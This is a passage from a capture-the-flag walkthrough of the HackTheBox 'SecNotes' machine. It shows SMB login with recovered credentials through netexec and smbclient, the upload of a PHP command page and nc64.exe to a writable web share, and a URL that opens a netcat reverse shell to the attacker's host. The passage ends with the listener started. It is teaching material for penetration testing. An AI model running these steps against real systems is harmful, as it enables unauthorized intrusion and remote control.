 Now Login with the above Username and you will see the SMB Login Details.
![](SecNotes_Web5.png)
### SMB_Access
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SecNotes.htb]
└─# netexec smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
SMB         10.10.10.97     445    SECNOTES         [*] Enumerated shares
SMB         10.10.10.97     445    SECNOTES         Share           Permissions     Remark
SMB         10.10.10.97     445    SECNOTES         -----           -----------     ------
SMB         10.10.10.97     445    SECNOTES         ADMIN$                          Remote Admin
SMB         10.10.10.97     445    SECNOTES         C$                              Default share
SMB         10.10.10.97     445    SECNOTES         IPC$                            Remote IPC
SMB         10.10.10.97     445    SECNOTES         new-site        READ,WRITE 
```
We got the share access. "New-Site" is the share for which we have READ, WRITE access.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SecNotes.htb]
└─# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Dec  9 23:54:07 2024
  ..                                  D        0  Mon Dec  9 23:54:07 2024
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

    7736063 blocks of size 4096. 3397387 blocks available
```
Upon looking at the content, it has `iisstart.htm` page which is point to port 8808 in the above nmap results.
### Obtain_Reverse_Shell
putting simple php_cmd.php reverse shell and accessing it through `http://secnotes.htb:8808/php_cmd.php?nc64.exe+-e+cmd.exe+10.10.14.4+4444`

First Let's upload nc64.exe and php_cmd.php on the smb share
```
└─# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put php
php/                   php_cmd.php            php-reverse-shell.php  
smb: \> put php_cmd.php 
putting file php_cmd.php as \php_cmd.php (1.5 kb/s) (average 1.5 kb/s)
smb: \> put nc64.exe 
putting file nc64.exe as \nc64.exe (257.0 kb/s) (average 162.5 kb/s)
smb: \>
```
starting the NetCat Listener and accessing `http://secnotes.htb:8808/php_cmd.php?cmd=nc64.exe+-e+cmd.exe+10.10.14.4+4444`
```
# nc -lvnp 4444                                                        
listening on [any] 4444 ...
```